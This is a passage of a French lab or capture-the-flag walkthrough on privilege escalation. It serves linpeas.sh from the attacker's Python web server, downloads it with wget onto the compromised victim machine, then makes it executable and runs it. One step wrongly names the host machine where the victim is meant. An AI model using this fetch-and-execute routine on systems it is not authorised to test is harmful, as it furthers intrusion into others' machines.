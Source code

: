 Pour cela, on va faire un **python server** ! Pour faire simple avec la commande `python3 -m http.server` nous allons créer un serveur web à l'endroit ou la commande est executé. De cette manière, puisqu'on a le contrôle sur la victime, nous pouvons faire une requête vers notre propre serveur et demander la ressource **"linpeas.sh"**

Parfait ! On va donc sur la machine victime se placer dans le dossier /tmp `cd /tmp` et sur la machine hôte se mettre dans le dossier qui contient le fichier **linpeas.sh**.

Une fois fait sur la machine hôte, nous pouvons utiliser :

```bash
python3 -m http.server
```

<img src="documentation/images/privesc2.png" style="border-radius:5px; box-shadow: 5px 5px 5px #888888;">

> On peut d'ailleurs noté que par défaut le port utilisé est le port 8000

Ensuite, sur la machine hôte, il faut faire une requête sur ce dernier et cela donne :

```bash
wget http://10.11.0.1:8000/linpeas.sh
```

> Si vous avez toujours le problème de "connection refused" utiliser "host.docker.internal"

<img src="documentation/images/privesc3.png" style="border-radius:5px; box-shadow: 5px 5px 5px #888888;">

Parfait le fichier est bien sur la machine victime ! Il ne nous reste plus qu'a rendre le fichier exécutable et le tour est joué :

```bash
chmod +x linpeas.sh
```

Puis pour l'exécuter :

```bash
./linpeas.sh
```
